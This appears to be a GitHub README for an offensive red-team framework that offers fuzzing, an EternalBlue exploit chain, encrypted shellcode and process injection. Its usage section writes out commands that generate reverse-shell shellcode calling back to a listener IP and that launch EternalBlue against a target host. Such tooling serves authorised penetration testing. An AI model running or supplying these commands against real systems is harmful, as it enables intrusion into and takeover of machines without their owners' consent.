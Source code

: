 # ⚔️ ZeroDayForge

![ZDF Banner](https://img.shields.io/badge/status-stable-brightgreen?style=flat-square)
![License](https://img.shields.io/badge/license-MIT-blue?style=flat-square)
![Platform](https://img.shields.io/badge/platform-Windows/Linux-ff69b4?style=flat-square)

> 💀 **ZeroDayForge** is a modular red team framework for exploit development, protocol fuzzing, memory corruption research, and shellcode generation — built for professionals, researchers, and chaos engineers.

---

## 📸 Screenshot

![ZeroDayForge Demo](assets/banner-preview.png)

---

## 🚀 Capabilities

- 🎯 **Protocol Fuzzing** (SMBv1, RDP, DNS)
- 💥 **EternalBlue Exploit Chain** for Windows targets
- 🧠 **Shellcode Generator** (x64 polymorphic, encrypted)
- 🧬 **Process Injection** (Direct Syscalls + Hollowing)
- 🛡️ **Shellcode Encryptors** (AES, ChaCha20, XOR fallback)
- 🧪 **Simulated Win32 Heap Manipulation**
- 🔍 **PoC Generator** with crash logging
- ✅ **Self-Test Suite** — verify tool integrity without a target

---

## 📦 Installation

```bash
git clone https://github.com/YOUR_USERNAME/zerodayforge.git
cd zerodayforge
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

---

## ⚙️ Usage

### 🔎 Run Self-Test (no target required)

```bash
python self_test.py
```

### 🔧 Generate Payload

```bash
python zerodayforge.py payload -t shellcode -o reverse.bin -l 10.10.0.1 -p 4444
```

### 💥 Exploit EternalBlue

```bash
python zerodayforge.py exploit -t 192.168.1.100:445 -e eternalblue
```

### 🔬 Fuzz Protocol

```bash
python zerodayforge.py fuzz -t 192.168.1.100:445 -p smb
```

---

## 🧠 Developer Mode

Enable debug logging:
```bash
python zerodayforge.py -d <subcommand>
```

---

## 📁 File Structure

```
.
├── core/               # Core framework (fuzzer, heap, syscall)
├── payloads/           # Shellcode, encryption, injection logic
├── protocols/          # Protocol-specific exploits (SMB, RDP, etc)
├── scripts/            # Shell script utilities
├── examples/           # Sample payload generators
├── zerodayforge.py     # Main CLI
├── self_test.py        # Local self-verification
├── requirements.txt
└── README.md
```

---

## 🔥 Credits & Tools Used

- [Impacket](https://github.com/fortra/impacket)
- [PyRDP](https://github.com/GoSecure/pyrdp)
- [Capstone & Keystone](http://www.keystone-engine.org/)
- Offensive Security inspiration

---

## ⚠️ Disclaimer

This tool is provided for **educational and authorized red teaming use only**.
**Do not use it on networks you don’t own or have permission to test.**
You've been warned. ⚔️

---

> ZeroDayForge — *Shaping Exploits. Forging Mayhem.*
